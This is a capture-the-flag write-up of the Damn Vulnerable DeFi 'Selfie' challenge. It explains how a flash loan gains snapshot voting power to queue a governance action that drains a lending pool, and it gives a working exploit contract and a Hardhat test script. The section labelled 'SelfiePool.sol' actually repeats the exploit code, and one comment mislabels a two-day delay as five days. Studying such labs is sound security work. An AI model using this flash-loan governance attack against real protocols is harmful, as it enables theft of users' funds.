

**Wargame Provider: @tinchoabbate**

> Challenge #6 — Selfie <br>
A new cool lending pool has launched! It’s now offering flash loans of DVT tokens.

Wow, and it even includes a really fancy governance mechanism to control it.

What could go wrong, right ?

You start with no DVT tokens in balance, and the pool has 1.5 million. Your objective: take them all.

- [See the contracts](https://github.com/tinchoabbate/damn-vulnerable-defi/tree/v2.1.0/contracts/selfie)
- [Complete the challenge](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.1.0/test/selfie/selfie.challenge.js)


## Code Audit
> SelfiePool.sol
``` solidity
pragma solidity ^0.8.0;

import "../DamnValuableTokenSnapshot.sol";
import "./SimpleGovernance.sol";
import "./SelfiePool.sol";

contract SelfieExploit {

    SimpleGovernance public governance;
    SelfiePool public pool;
    
    uint256 public actionId;

    constructor(address gvContract, address poolContract) public {
        governance = SimpleGovernance(gvContract);
        pool = SelfiePool(poolContract);    }


    function receiveTokens(DamnValuableTokenSnapshot token, uint256 amount) public returns(uint256){
        token.snapshot();
        token.transfer(msg.sender, amount);
        actionId = governance.queueAction(
                    address(pool), 
                    abi.encodeWithSignature(
                        "drainAllFunds(address)",
                        tx.origin
                    ),
                    0
        );
        return actionId;
    }

    function _exploit(uint256 amount) public {
        pool.flashLoan(amount);
    }
}
```
### Dependency
``` text
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";
import "@openzeppelin/contracts/token/ERC20/extensions/ERC20Snapshot.sol";
import "@openzeppelin/contracts/utils/Address.sol";
import "./SimpleGovernance.sol";
```

- The @Openzeppelin external library contract is dependent on ReentrancyGuard, ERC20Snapshot, Address.
- Using the internal contract SimpleGovernance.

### State Variables
``` text
ERC20Snapshot public token;
SimpleGovernance public governance;
```
- Variable for initial instance to use other contract. Allocate ERC20 snapshot token and SimpleGovernance contract distribution address values, respectively.

### Fucntions
`modifier onlyGovernance()`

✅ Checks whether the value of the msg.sender address is the same as the “governance contract” address, and only if governance conditions are met, it can pass that modifier.

`constructor(address tokenAddress, address governanceAddress)`

- token, governance Set the address of each deployed contract to the contract assignment variable value.

`function flashLoan(uint256 borrowAmount) external nonReentrant`

✅ In order to pass the condition, the value received as the borrowAmount argument of this function must be equal to or less than the balance value of ERC20Snapshot tokend. (Basic logic for getting a loan)
- Based on the transfer function of the ERC20Snapshot token, the token is transferred to msg.sender as much as the borrowAmount value.

✅ msg.sender checks whether it is a deployed contract based on the isContract() function.
- Executes the msg.sender.functionCall command and calls receiveTokens(address, uint256) with the ABI function selector based on msg.sender.

✅ After making a loan, we check to see if the loan has been returned to the borrower.

☑️ Must pass onlyGovernance modifier.
- Based on the ERC20Snapshot token contract function transfer, the token is delivered as much as the amount value (balance of the token contract) to the receiver of this function parameter.

``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../DamnValuableTokenSnapshot.sol";
import "@openzeppelin/contracts/utils/Address.sol";

/**
 * @title SimpleGovernance
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract SimpleGovernance {

    using Address for address;
    
    struct GovernanceAction {
        address receiver;
        bytes data;
        uint256 weiAmount;
        uint256 proposedAt;
        uint256 executedAt;
    }
    
    DamnValuableTokenSnapshot public governanceToken;

    mapping(uint256 => GovernanceAction) public actions;
    uint256 private actionCounter;
    uint256 private ACTION_DELAY_IN_SECONDS = 2 days;

    event ActionQueued(uint256 actionId, address indexed caller);
    event ActionExecuted(uint256 actionId, address indexed caller);

    constructor(address governanceTokenAddress) {
        require(governanceTokenAddress != address(0), "Governance token cannot be zero address");
        governanceToken = DamnValuableTokenSnapshot(governanceTokenAddress);
        actionCounter = 1;
    }
    
    function queueAction(address receiver, bytes calldata data, uint256 weiAmount) external returns (uint256) {
        require(_hasEnoughVotes(msg.sender), "Not enough votes to propose an action");
        require(receiver != address(this), "Cannot queue actions that affect Governance");

        uint256 actionId = actionCounter;

        GovernanceAction storage actionToQueue = actions[actionId];
        actionToQueue.receiver = receiver;
        actionToQueue.weiAmount = weiAmount;
        actionToQueue.data = data;
        actionToQueue.proposedAt = block.timestamp;

        actionCounter++;

        emit ActionQueued(actionId, msg.sender);
        return actionId;
    }

    function executeAction(uint256 actionId) external payable {
        require(_canBeExecuted(actionId), "Cannot execute this action");
        
        GovernanceAction storage actionToExecute = actions[actionId];
        actionToExecute.executedAt = block.timestamp;

        actionToExecute.receiver.functionCallWithValue(
            actionToExecute.data,
            actionToExecute.weiAmount
        );

        emit ActionExecuted(actionId, msg.sender);
    }

    function getActionDelay() public view returns (uint256) {
        return ACTION_DELAY_IN_SECONDS;
    }

    /**
     * @dev an action can only be executed if:
     * 1) it's never been executed before and
     * 2) enough time has passed since it was first proposed
     */
    function _canBeExecuted(uint256 actionId) private view returns (bool) {
        GovernanceAction memory actionToExecute = actions[actionId];
        return (
            actionToExecute.executedAt == 0 &&
            (block.timestamp - actionToExecute.proposedAt >= ACTION_DELAY_IN_SECONDS)
        );
    }
    
    function _hasEnoughVotes(address account) private view returns (bool) {
        uint256 balance = governanceToken.getBalanceAtLastSnapshot(account);
        uint256 halfTotalSupply = governanceToken.getTotalSupplyAtLastSnapshot() / 2;
        return balance > halfTotalSupply;
    }
}
```
### Dependency
``` text
import "../DamnValuableTokenSnapshot.sol";
import "@openzeppelin/contracts/utils/Address.sol";
```
- Use the Address contract of the `@Openzeppelin` library contract.
- Use the `DamnValuableTokenSnapshot` contract.

### State Vairables
``` solidity
struct GovernanceAction {
        address receiver;
        bytes data;
        uint256 weiAmount;
        uint256 proposedAt;
        uint256 executedAt;
 }
```
- It is used as a dependent structure in the Governance contract, and each member variable can be confirmed as data necessary for the logic configuration of the contract.
- Let’s take a brief look at each variable. Allocate address receiver contract address and user account address. Since the bytes data variable is assigned a value of the bytes type, it can contain specific data. The uint256 weAmount variable allocates the amount of tokens on a wei basis. The uint256 propsedAt variable is used to measure the time of the Goverence condition. The executedAt variable is used to record the function executeAction call. Each data structure is governed by Goverence Action logic.

`mapping(uint256 => GovernanceAction) public actions`

- This is a mapping structure to manage the GovernanceAction Struct explained above, and manages each structure with a key value named ActionID in the increment state.

`uint256 private actionCounter`

- It is a variable to measure the Coutner of the ActionID value when each Action structure is assigned to manage the action structures.

`uint256 private ACTION_DELAY_IN_SECONDS = 2 days;`

- It is used to measure whether the executeAction function can be called inside the function _canBeExecuted(uint256 actionId) function based on the time of 2 days.

## Functions

`constructor (address governanceTokenAddress)`

✅ governanceTokenAddress The argument to this function must have a value other than address(0) to pass.

- Assign the DamnValuableTokenSnapshot deployed contract address to the governanceToken state variable.

- actionCounter Initializes the value of the management variable.

`function queueAction(address receiver, bytes calldata data, uint256 weiAmount) external returns(uint256)`

✅ `_hasEnoughVotes(msg.sender)` function call return condition must be True to pass.

📥 `function _hasEnoughVotes(address account) private view returns (bool)`

- Measures whether this user has the right to vote in Governance. In order to be eligible to vote, the holding `balance` value must be greater than the `governanceToken.TotalSupply / 2` value. Return data will return True/False depending on whether voting is possible or not.

📤 `queueAction`

✅ `queueAction` Among the arguments of the function, the address value of the receiver 
must not be the same as the address of the current contract.

- Among `GovernanceAction` Structs, data is fetched and assigned from the mapping structure based on the current actionId key value. (Stored in the transaction.)
- Set values to member variables of `GovernanceAction` structure retrieved with `actionId`.GovernanceAction storage actionToQueue = actions[actionId]; actionToQueue.receiver = receiver;actionToQueue.weiAmount = weiAmount;actionToQueue.data = data;actionToQueue.proposedAt = block.timestamp;
- Increases the actionCounter state variable. (for measurement)
- Returns the set actionId value.

`function executeAction(uint256 actionId) external payable`

✅ `_canBeExecuted(actionId)` Pass the condition based on the return value.

📥 `function _canBeExecuted(uint256 actionId) private view returns (bool)`

- Among the `GovernanceAction` structures, the data mapped to the `actionId` value is temporarily allocated to the memory state.

- The value of the `.executedAt` variable must be zero. It must have never actually been executed, and `proposedAt` must have been `2 days` from the current time.

📤 `executeAction`

- .`executeAt` assign a variable value based on the current time.

- `.receiver` invokes the `functionCallWithvalue` command based on the address of the 
variable. Required ABI function selectors and parameters are called using member variables defined in the structure.

## Vulnerability
The flashLoan contract allows users to use the flashLoan service. The actual access itself can be used by anyone, and it is possible to borrow as much as the balance value of the tokenPool contract.
``` solidity
msg.sender.functionCall(
            abi.encodeWithSignature(
                "receiveTokens(address,uint256)",
                address(token),
                borrowAmount
            )
 );
```
An attack vector exists that can call the `receiveTokens` function, which is not implemented in the flashLoan structure. If the attacker calls the flashLoan function and executes this `fucntionCall`, and implements the `receiveTokens` function intentionally, the actual handling becomes possible, so unintended logic desired by the attacker may be executed.
``` solidity
function drainAllFunds(address receiver) external onlyGovernance {
        uint256 amount = token.balanceOf(address(this));
        token.transfer(receiver, amount);
        
        emit FundsDrained(receiver, amount);
    }
```
In the case of the `drainAllFunds` function, if the `onlyGovernance` modifier can be passed, there is a possibility that the balance can be stolen using the `transfer` function of the tokenPool implemented inside.

``` solidity
function executeAction(uint256 actionId) external payable {
        require(_canBeExecuted(actionId), "Cannot execute this action");
        
        GovernanceAction storage actionToExecute = actions[actionId];
        actionToExecute.executedAt = block.timestamp;

        actionToExecute.receiver.functionCallWithValue(
            actionToExecute.data,
            actionToExecute.weiAmount
        );

        emit ActionExecuted(actionId, msg.sender);
  }
```
When the `executeAction` function implemented inside the `simpleGovernance` contract is called, the `functionCallWithValue` command can be executed with the `receiver` address based on the values of each action structure configured in this contract, so that the available functions of other contracts can be called from this Governance contract address. It can be used as an attack vector.


## Solve
In order to steal the tokenPool’s assets, the attacker uses a combination of the previous vulnerabilities to attack. First, the attacker calls the flashLoan function of the flashLoan contract to loan the entire balance to the token pool. Implement a function to handle when the `receiveTokens` function call is executed in the process of acquiring sufficient balance. Because you have a sufficient balance, you meet the conditions to be eligible for governance voting rights. (It should be greater than half of the total balance.) During the flashLoan process, you must ensure that you do not panic and obtain the right to vote for governance.

To call the `executeAction` function in the governance process, adjust the transaction to pass 2 days and call the `drainAllFunds` function. If this happens, since it is a contract with actual governance voting rights, function calls are possible and the balance can be stolen.

## Exploit Contract
``` Solidity
pragma solidity ^0.8.0;

import "../DamnValuableTokenSnapshot.sol";
import "./SimpleGovernance.sol";
import "./SelfiePool.sol";

contract SelfieExploit {

    SimpleGovernance public governance;
    SelfiePool public pool;
    
    uint256 public actionId;

    constructor(address gvContract, address poolContract) public {
        governance = SimpleGovernance(gvContract);
        pool = SelfiePool(poolContract);    }


    function receiveTokens(DamnValuableTokenSnapshot token, uint256 amount) public returns(uint256){
        token.snapshot();
        token.transfer(msg.sender, amount);
        actionId = governance.queueAction(
                    address(pool), 
                    abi.encodeWithSignature(
                        "drainAllFunds(address)",
                        tx.origin
                    ),
                    0
        );
        return actionId;
    }

    function _exploit(uint256 amount) public {
        pool.flashLoan(amount);
    }
}
```

## Exploit Contract Call
``` tsx
const { ethers } = require('hardhat');
const { expect } = require('chai');

describe('[Challenge] Selfie', function () {
    let deployer, attacker;

    const TOKEN_INITIAL_SUPPLY = ethers.utils.parseEther('2000000'); // 2 million tokens
    const TOKENS_IN_POOL = ethers.utils.parseEther('1500000'); // 1.5 million tokens
    
    before(async function () {
        /** SETUP SCENARIO - NO NEED TO CHANGE ANYTHING HERE */
        [deployer, attacker] = await ethers.getSigners();

        const DamnValuableTokenSnapshotFactory = await ethers.getContractFactory('DamnValuableTokenSnapshot', deployer);
        const SimpleGovernanceFactory = await ethers.getContractFactory('SimpleGovernance', deployer);
        const SelfiePoolFactory = await ethers.getContractFactory('SelfiePool', deployer);

        this.token = await DamnValuableTokenSnapshotFactory.deploy(TOKEN_INITIAL_SUPPLY);
        this.governance = await SimpleGovernanceFactory.deploy(this.token.address);
        this.pool = await SelfiePoolFactory.deploy(
            this.token.address,
            this.governance.address    
        );

        await this.token.transfer(this.pool.address, TOKENS_IN_POOL);

        expect(
            await this.token.balanceOf(this.pool.address)
        ).to.be.equal(TOKENS_IN_POOL);
    });

    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
        const SelfieExploitFactory = await ethers.getContractFactory('SelfieExploit', attacker);
        this.selfieExploit = await SelfieExploitFactory.deploy(
            this.governance.address,
            this.pool.address);
        
        console.log(this.selfieExploit.address);
        await this.selfieExploit.connect(attacker)._exploit(TOKENS_IN_POOL);

        await ethers.provider.send("evm_increaseTime", [2 * 24 * 60 * 60]); // 5 days
        // console.log( await this.selfieExploit.actionId());
        await this.governance.connect(attacker).executeAction(
            await this.selfieExploit.actionId(), { value: 0 }
        );
    });

    after(async function () {
        /** SUCCESS CONDITIONS */

        // Attacker has taken all tokens from the pool
        expect(
            await this.token.balanceOf(attacker.address)
        ).to.be.equal(TOKENS_IN_POOL);        
        expect(
            await this.token.balanceOf(this.pool.address)
        ).to.be.equal('0');
    });
});
```

## next time.. 🚀

I will continue to post auditing and research on 12 challenge defi Smart Contracts.

Thank you for the @tinchoabbate that made a good wargame.
[Damn Vunlerable Defi](https://www.damnvulnerabledefi.xyz/)


```toc
```